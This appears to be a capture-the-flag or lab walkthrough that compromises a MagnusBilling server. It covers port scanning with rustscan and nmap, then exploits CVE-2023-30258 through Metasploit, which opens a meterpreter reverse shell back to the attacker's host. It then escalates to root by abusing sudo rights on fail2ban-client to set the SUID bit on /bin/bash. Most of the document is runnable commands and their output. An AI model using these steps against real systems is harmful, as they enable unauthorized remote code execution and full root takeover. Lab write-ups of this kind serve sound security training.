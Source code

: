 

##### **Find all Ports:**
`rustscan -a 10.10.218.174`

##### **Scan all the ports using NMAP:**
`nmap -A 10.10.218.174 -p 22,80,3306,5038 -v`

##### **Result:**
```
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.218.174/mbilling/
| http-methods: 
|_  Supported Methods: GET HEAD POST
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)

```


##### **Use Metasploit-Framework for search exploit:**
```
search MagnusBilling
use linux/http/magnusbilling_unauth_rce_cve_2023_30258
show options
set rhosts 10.10.218.174
set lhost 10.17.22.228
exploit
```

##### **Result:**
```
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > run
[*] Started reverse TCP handler on 10.17.22.228:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.218.174:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 7 seconds.
[*] Elapsed time: 7.42 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 10.10.218.174
[+] Deleted qFlPWSwIcwgvTx.php
[*] Meterpreter session 1 opened (10.17.22.228:4444 -> 10.10.218.174:49250) at 2025-05-26 12:36:38 -0400
```


#### **Now dive into Post exploitation:**

##### **List sudo privileges:**
`sudo -l `

```
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```


Search: **==fail2ban-client==** exploit
## [Exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/#exploit)

```bash
# Get jail list
sudo /usr/bin/fail2ban-client status
# Choose one of the jails from the "Jail list" in the output.
sudo /usr/bin/fail2ban-client get <JAIL> actions
# Create a new action with arbitrary name (e.g. "evil")
sudo /usr/bin/fail2ban-client set <JAIL> addaction evil
# Set payload to actionban
sudo /usr/bin/fail2ban-client set <JAIL> action evil actionban "chmod +s /bin/bash"
# Trigger the action
sudo /usr/bin/fail2ban-client set <JAIL> banip 1.2.3.5
# Now we gain a root
/bin/bash -p
```

